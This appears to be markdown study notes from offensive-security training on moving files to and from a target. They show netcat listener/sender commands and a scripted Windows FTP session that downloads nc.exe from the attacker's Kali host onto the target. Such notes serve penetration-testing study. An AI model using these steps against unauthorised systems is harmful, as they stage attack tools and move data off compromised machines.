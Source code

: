 ```yaml
---
title: "File transfers"
author: "Me"
date: "February 25, 2022"
output: html_document
---
```


# File transfers
{:.no_toc}

Here's the content so far:

1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}


## Netcat
Netcat can transfer files in both text and binary. It is simple to use but not always installed on the target.\\

````
nc -nlvp 4444 > incoming.txt                  // Receiving end
nc -nv <target IP> 4444 < <path to file>      // Sending end
````

## FTP
As netcat, FTP can transfer files in both text and binary. Depending on the transfer direction, it may be necessary to install Pure-FTPd on Kali (sudo apt update && sudo apt install pure-ftpd, then create a new user).

````
binary                // Optional: switch to binary mode
put <filename>        // Upload a file on the server
get <filename>        // Downloads a file from the server
`````

We can also use FTP's *-s* flag, which allows us to specify a text file containing FTP commands that will be executed automatically when FTP starts.
- Set up an FTP server on Kali 
- Place the file to transfer (in this example _nc.exe_) in /ftphome directory.
- On Windows, create a _ftp.txt_ file containing the commands to execute (transfer the file in binary mode):
  ````
  echo open <Kali IP> 21> ftp.txt
  echo USER <FTP username>>> ftp.txt
  echo <FTP password>>> ftp.txt
  echo bin >> ftp.txt
  echo GET nc.exe >> ftp.txt
  echo bye >> ftp.txt
  `````
- Download the file from Windows: 
  ```
  ftp -v -n -s:ftp.txt
  ````
  *-v* to suppress any returned output, *-n* to suppress automatic login, *-s* to specify the file.
